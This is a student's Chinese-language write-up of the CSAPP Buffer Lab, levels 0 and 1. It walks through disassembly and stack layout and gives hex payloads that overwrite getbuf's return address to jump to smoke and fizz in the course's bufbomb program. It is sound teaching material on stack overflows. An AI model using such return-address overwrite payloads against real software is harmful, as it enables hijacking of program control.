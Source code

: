 # CSAPP：第三次实验  Buffer Lab

## 一、实验说明



1. `bufferlab`中有三个文件，`bufbomb`、`makecookie`、`sendstring`，都是可执行文件

2. 生成自己的`cookie`：

   ```shell
   ./makecookie SA21225298
   -0x5e2f1f83
   ```
   
3. 构造攻击字符串：

   ```shell
   ./sendstring < exploit.txt > exploit-raw.txt
   ```

4. 反汇编`bufbomb`：

   ```shell
   objdump -d bufbomb > bufbome.asm
   ```

5. 字符串输入：

   ```shell
   ./bufbomb -t SA21225298 < exploit-raw.txt
   ```



![image-20220126163606635](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126163606635.png)

![image-20220126163616869](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126163616869.png)



## 二、实验内容



### 2.1  Level 0 ： Candle

​		![image-20220126165131323](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165131323.png)

​		![image-20220126165147463](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165147463.png)

​		首先在汇编文件中找到`getbuf`函数：

```assembly
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```

​		通常在P过程调用Q过程时，程序的栈帧结构如下图所示：

![image-20220126164427961](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126164427961.png)

​		于是结合汇编代码可以分析出`getbuf`函数在调用`Gets`函数前的栈帧结构为：

![image-20220126164451536](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126164451536.png)

​		为了覆盖被存在返回地址上的值(对于32位机器是4B)，我们需要读入超过系统默认12 Bytes大小的`string`。由于保存的`ebp`占据了4B 所以当我们的`input string`为20B时，最后4B 刚好覆盖返回地址。为了使`getbuf`执行结束后跳转到`smoke`函数，我们需要知道`smoke`函数的地址，查找反汇编文件发现其地址为`0x08048e20`。

```assembly
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

​		因此，攻击字符串长度为20B，且最后4B需为`0x08048e20`。由于我们在输入文件下写入的都是字符，而计算机系统中字符以`ASCII`码表示 /存储，因此为了构造所需要的地址或其他数据，我们采用代码包给出的 sendstring工具来将我们写入的`ASCII`码字符转换成所对应的字符。

​		首先将用于攻击的目标数据写入一个`txt`文件中并命名为`exploit.txt`（需写为用空格分隔的ASCII码），这
里目标数据如下(前16字节随意写)：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 20 8e 04 08`。要
特别注意，最后的四字节需写为`20 8e 04 08`而不是`08 04 8e 20`，因为数据在当前机器内存中是按小端
方式存储的。

​		最后运行`bufbomb`即可看到攻击结果：

![image-20220126164850085](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126164850085.png)

​		这里发送邮件的错误可以忽略，这个功能是供`CMU`的学生使用的。



### 2.2 Level 1：Sparkler

![image-20220126165159724](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165159724.png)

​		同样在汇编代码中找到`fizz`函数：

```assembly
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

​		根据`level0`中的分析可知，为了从`getbuf`函数“返回”到该函数，我们首先需要构造如下字符串来覆盖`getbuf`函数的返回地址（前16B随意写）：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 c0 8d 0408`，但除此之外，本题还需要给出传入`fizz`函数的参数。在`fizz`汇编代码中可以看到`cmp`指令是将存放`cookie`的变量与`%ebp+0x8`处的值相比，所以正常调用的情况下参数位置就是`%ebp+0x8`处，但是注意，我们的输入操作是在`getbuf`函数中做的，因此必须确定该位置相对于`getbuf`函数的`ebp`的距离。做如下调用过程分析：
首先，我们调用`getbuf`函数：

![image-20220126165352410](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165352410.png)

​		当`getbuf`函数执行即将结束时，先执行`leave`指令：将`esp`指向`ebp`位置，然后`pop`备份的旧`ebp`到`ebp`指针中：

![image-20220126165509035](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165509035.png)

​		然后执行`ret`指令，将栈顶的返回地址弹出到EIP，然后按照EIP此时指示的指令地址继续执行程序。此时栈帧结构为：

![image-20220126165546061](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165546061.png)

​		由于返回地址被我们覆盖为`fizz`的地址，因此此时`eip`指示执行的是`fizz`函数。与所有函数调用一样，在一开始，`fizz`函数会执行`push, mov`指令，压入旧`ebp`并将`ebp`置为自己的栈帧位置：

![image-20220126165632550](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165632550.png)

​		可以看到，这里栈帧表现出来相当于主函数在没有压入返回地址的情况下调用了`fizz`函数（实际是不可能的，只是因为受到了我们的攻击），所以在这种情况下`fizz`中的`ebp+8`的位置应该对应于`getbuf`函数执行时的`ebp+12`的位置。

​		解决了在覆盖位置问题之后，就只剩用什么去覆盖的问题了。根据实验要求，我们使用`makecookie`生成覆盖内容：

![image-20220126165759927](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165759927.png)

​		于是最终覆盖的数据为：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 c0 8d 04 08 00 00 00 00 83 1f 2f 5e `

​		最后执行`bufbomb`程序：

![image-20220126165900255](E:\ustc\CSAPP\labs\lab3\attacklab.assets\image-20220126165900255.png)

​		攻击成功！



## 三、实验总结

​		这次`lab`比之前的简单多了，也更有了`hacker`的感觉。:grin:

